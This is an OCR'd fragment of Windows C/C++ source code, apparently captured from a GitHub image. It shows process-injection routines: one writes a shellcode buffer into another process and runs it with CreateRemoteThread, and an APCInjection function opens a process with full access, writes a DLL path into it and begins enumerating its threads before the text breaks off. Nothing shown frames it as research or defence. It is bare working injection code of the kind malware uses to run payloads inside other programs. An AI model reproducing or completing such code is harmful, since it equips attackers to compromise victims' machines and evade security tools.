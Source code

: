         if (!WriteProcessMemory(hProcess, remoteShellcode, shellcode, 
            sizeof(shellcode), NULL)) {
            VirtualFreeEx(hProcess, remoteMem, 0, MEM_RELEASE);
            VirtualFreeEx(hProcess, remoteShellcode, 0, MEM_RELEASE);
            CloseHandle(hProcess);
            return false;
        }
        
        HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, 
            (LPTHREAD_START_ROUTINE)remoteShellcode, remoteMem, 0, NULL);
            
        if (!hThread) {
            VirtualFreeEx(hProcess, remoteMem, 0, MEM_RELEASE);
            VirtualFreeEx(hProcess, remoteShellcode, 0, MEM_RELEASE);
            CloseHandle(hProcess);
            return false;
        }
        
        WaitForSingleObject(hThread, INFINITE);
        
        VirtualFreeEx(hProcess, remoteMem, 0, MEM_RELEASE);
        VirtualFreeEx(hProcess, remoteShellcode, 0, MEM_RELEASE);
        CloseHandle(hThread);
        CloseHandle(hProcess);
        
        return true;
    }
    
    static bool APCInjection(DWORD processId, const wchar_t* dllPath) {
        HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processId);
        if (!hProcess) return false;
        
        size_t pathSize = (wcslen(dllPath) + 1) * sizeof(wchar_t);
        LPVOID remoteMem = VirtualAllocEx(hProcess, NULL, pathSize, 
            MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
            
        if (!remoteMem) {
            CloseHandle(hProcess);
            return false;
        }
        
        if (!WriteProcessMemory(hProcess, remoteMem, dllPath, pathSize, NULL)) {
            VirtualFreeEx(hProcess, remoteMem, 0, MEM_RELEASE);
            CloseHandle(hProcess);
            return false;
        }
        
        HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
        if (hSnapshot == INVALID_HANDLE_VALUE) {
            VirtualFreeEx(hProcess, remoteMem, 0, MEM_RELEASE);
            CloseHandle(hProcess);
            return false;
        }
        
        THREADENTRY32 te;
        te.dwSize = sizeof(te);
        BOOL success = FALSE;
        